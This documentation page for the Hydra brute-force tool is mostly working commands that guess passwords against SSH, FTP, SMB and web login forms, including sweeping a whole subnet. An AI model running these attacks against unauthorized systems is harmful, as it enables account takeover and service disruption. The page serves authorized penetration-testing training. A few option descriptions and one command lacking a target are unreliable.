 ```yaml
---
title: Hydra Basic Usage
description: Learn the fundamental commands and options for using Hydra effectively
---
```



# Hydra Basic Usage

This guide covers the essential commands and options for using Hydra effectively in your penetration testing workflow. We'll walk through basic usage patterns, command structure, and provide practical examples for common scenarios.

## Getting Started

<Steps>
  <Step title="Verify Installation">
    First, ensure Hydra is properly installed on your system:
    
    ```bash
    hydra -h
    ```
    
    This should display the help menu with all available options.
  </Step>
  <Step title="Understand Command Structure">
    The basic Hydra command structure is:
    
    ```bash
    hydra [options] [-s PORT] TARGET PROTOCOL [MODULE-OPTIONS]
    ```
    
    Where:
    - `[options]` are general Hydra options
    - `[-s PORT]` specifies a non-default port
    - `TARGET` is the target host(s)
    - `PROTOCOL` is the protocol to attack
    - `[MODULE-OPTIONS]` are protocol-specific options
  </Step>
  <Step title="Prepare Wordlists">
    Before starting an attack, prepare your username and password lists:
    
    ```bash
    # Example username list
    echo -e "admin\nroot\nuser" > usernames.txt
    
    # Example password list
    echo -e "password\nadmin123\nqwerty" > passwords.txt
    ```
    
    For real attacks, use more comprehensive wordlists like those in `/usr/share/wordlists/` on Kali Linux.
  </Step>
</Steps>

## Basic Attack Examples

### SSH Attack

To perform a basic SSH brute force attack:

```bash
# Single username, password list
hydra -l admin -P passwords.txt ssh://192.168.1.100

# Username list, single password
hydra -L usernames.txt -p password123 ssh://192.168.1.100

# Username and password lists
hydra -L usernames.txt -P passwords.txt ssh://192.168.1.100
```

### Web Form Attack

For attacking a web login form:

```bash
# POST form attack
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# GET form attack
hydra -l admin -P passwords.txt 192.168.1.100 http-get-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```

<Note>
The http-post-form and http-get-form modules require three parameters separated by colons:
1. The page URL path
2. The form parameters with ^USER^ and ^PASS^ placeholders
3. The error message indicating a failed login attempt
</Note>

### FTP Attack

For attacking an FTP server:

```bash
# Basic FTP attack
hydra -L usernames.txt -P passwords.txt ftp://192.168.1.100

# FTP on non-standard port
hydra -L usernames.txt -P passwords.txt -s 2121 ftp://192.168.1.100
```

## Common Options

### Parallelism Control

Control the number of parallel connections:

```bash
# 16 parallel connections per target (default)
hydra -l admin -P passwords.txt ssh://192.168.1.100

# 4 parallel connections per target
hydra -l admin -P passwords.txt -t 4 ssh://192.168.1.100

# 64 parallel connections total across all targets
hydra -l admin -P passwords.txt -T 64 -M targets.txt ssh
```

<Note>
Using too many parallel connections can cause service disruption or trigger security alerts. Start with lower values and increase gradually if needed.
</Note>

### Output Control

Control and save the output:

```bash
# Save results to a file
hydra -l admin -P passwords.txt ssh://192.168.1.100 -o results.txt

# Save in JSON format
hydra -l admin -P passwords.txt ssh://192.168.1.100 -o results.json -b json

# Verbose output
hydra -l admin -P passwords.txt -v ssh://192.168.1.100

# Very verbose output
hydra -l admin -P passwords.txt -V ssh://192.168.1.100
```

### Exit Conditions

Control when Hydra stops:

```bash
# Exit after finding first valid credential
hydra -l admin -P passwords.txt -f ssh://192.168.1.100

# Exit after finding N valid credentials
hydra -l admin -P passwords.txt -F -o found.txt ssh://192.168.1.100
```

## Practical Examples

### Multiple Targets

Attack multiple targets simultaneously:

```bash
# IP range
hydra -l admin -P passwords.txt 192.168.1.0/24 ssh

# From file
echo -e "192.168.1.100\n192.168.1.101" > targets.txt
hydra -l admin -P passwords.txt -M targets.txt ssh
```

### Username:Password Combinations

Use colon-separated username:password combinations:

```bash
# Create combinations file
echo -e "admin:password\nroot:toor\nuser:123456" > combos.txt

# Attack with combinations
hydra -C combos.txt ssh://192.168.1.100
```

### Empty and Special Passwords

Try empty passwords and username-as-password:

```bash
# Try null password, same as username, and reversed username
hydra -L usernames.txt -e nsr ssh://192.168.1.100
```

## Troubleshooting

### Connection Issues

If you're experiencing connection problems:

```bash
# Increase timeout (default is 30 seconds)
hydra -l admin -P passwords.txt -w 60 ssh://192.168.1.100

# Decrease connection attempts per second
hydra -l admin -P passwords.txt -c 10 ssh://192.168.1.100
```

### Service-Specific Issues

Some services may require additional configuration:

```bash
# HTTPS with SSL
hydra -l admin -P passwords.txt -S https-post-form "/:user=^USER^&pass=^PASS^:F=incorrect"

# Windows SMB with domain
hydra -l admin -P passwords.txt smb://192.168.1.100/domain
```

## Next Steps

Once you've mastered the basic usage of Hydra, explore the following topics:

- [Supported Protocols](/docs/hydra/core-operations/supported-protocols) - Learn about all the protocols Hydra supports
- [Attack Options](/docs/hydra/core-operations/attack-options) - Discover advanced attack configuration options
- [Performance Tuning](/docs/hydra/advanced-techniques/performance-tuning) - Optimize Hydra for speed and efficiency
